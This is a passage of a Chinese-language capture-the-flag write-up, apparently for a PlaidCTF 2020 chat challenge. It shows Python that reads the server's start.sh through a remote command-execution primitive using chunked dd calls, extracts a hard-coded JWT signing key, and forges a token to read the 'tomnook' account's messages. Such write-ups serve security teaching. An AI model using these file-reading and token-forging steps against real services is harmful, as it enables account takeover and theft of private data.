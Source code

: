 ```python
sbin
srv
start.sh
sys
tmp
usr
var
```

发现比较敏感的`start.sh`  ， 需要分段读取`start.sh`，否则太大了

```python
def read_file(file_name):
    d = b''
    index = 0
    while True:
        dd = run_command("dd if=%s bs=1 count=4096 skip=%d" % (file_name, index))
        if not dd:
            return d
        d += dd
        index += 4096
```

获取到 `start.sh` 的内容

```bash
#!/bin/bash
nginx
······
export JWT_KEY="Pl4idC7F2020"
······
```

获得`JWT_KEY`为`Pl4idC7F2020`，由题干中知道我们的目标是登录`tomnook`账户，看一下`x-chat-authorization`中的`JWT`组成

```
{
	"ipaddr": "xxx.xxx.xxx.xxx",
	"username": "xxx"
}
```

然后就可以构造出tomnook账户的token了

```
MY_IP = "your ip address"
JWT = "Pl4idC7F2020"
def get_messages():
    token = {'ipaddr': MY_IP, 'username': 'tomnook'}

    url = "https://chat.mooz.pwni.ng/api/messages"
    headers = {
        "x-chat-authorization": jwt.encode(token, JWT),
    }
    r=requests.get(url,proxies = proxies ,verify= False, headers=headers);

    assert r.status_code == 200
    return json.loads(r.text)
```
